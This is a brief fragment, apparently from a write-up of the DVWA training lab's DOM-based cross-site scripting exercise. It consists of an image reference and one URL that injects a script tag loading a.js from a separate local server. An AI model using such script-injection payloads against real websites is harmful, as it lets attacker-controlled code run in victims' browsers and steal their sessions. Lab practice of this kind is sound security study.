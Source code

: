 http://127.0.0.1:4280/vulnerabilities/xss_d/?default=<script src="http://127.0.0.1:9999/a.js"></script>
